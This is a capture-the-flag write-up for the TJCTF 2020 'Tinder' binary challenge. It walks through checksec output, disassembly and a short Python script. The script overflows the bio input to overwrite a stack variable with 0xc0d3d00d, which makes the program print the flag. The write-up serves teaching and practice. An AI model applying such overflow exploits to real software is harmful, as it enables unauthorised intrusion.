```yaml
---
layout: post
title:  "Tinder"
date:   2020-05-29 20:20:01 -0300
categories: [CTF,PWN,TJCTF 2020]
author: rogeriobastos
event: "TJCTF 2020"
tags: [CTF,PWN,TJCTF 2020]
description: "Writeup Gamer R Challenge"
image: ""
---
```


# TJCTF 2020

## Tinder (binary)

### Description

> [Start swiping](match)!
> 
> `nc p1.tjctf.org 8002`
>
> Written by agcdragon

25 points

### Solution Summary

Overwrite variable with expected value to get into conditional statement that print the flag.

### Walkthrough

The binary is a 32bits file with NX enabled.

```
$ pwn checksec match
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The program read some user data and the buffer overflow happens at fourth input.

```
$ ./match 
Welcome to TJTinder, please register to start matching!
Name: bla
Username: bli
Password: blu 
Tinder Bio: lolo       <= OVERFLOW HAPPENS HERE

Registered 'bli' to TJTinder successfully!
Searching for matches...
Sorry, no matches found. Try Again!
```

After that, compare a local variable with `0xc0d3d00d`.

```
   0x080488e4 <+247>:	cmp    DWORD PTR [ebp-0xc],0xc0d3d00d
   0x080488eb <+254>:	jne    0x80489a8 <main+443>
```

If the variable has the expected value, so jump does not happen, the program opens a file and prints the flag.

```
   0x08048949 <+348>:	call   0x8048570 <fopen@plt>
   0x0804894e <+353>:	add    esp,0x10
   0x08048951 <+356>:	mov    DWORD PTR [ebp-0x10],eax
   0x08048954 <+359>:	cmp    DWORD PTR [ebp-0x10],0x0
   0x08048958 <+363>:	jne    0x8048976 <main+393>
   0x0804895a <+365>:	sub    esp,0xc
   0x0804895d <+368>:	lea    eax,[ebx-0x1494]
   0x08048963 <+374>:	push   eax
   0x08048964 <+375>:	call   0x8048520 <puts@plt>
   0x08048969 <+380>:	add    esp,0x10
   0x0804896c <+383>:	sub    esp,0xc
   0x0804896f <+386>:	push   0x0
   0x08048971 <+388>:	call   0x8048530 <exit@plt>
```

The offset can be find using a pattern generator and inspecting `ebp-0xc` in a debugger.

### Exploit

```python
import struct

print 'A'*15
print 'A'*15
print 'A'*15
print 'A'*116 + struct.pack('<I', 0xc0d3d00d)
```
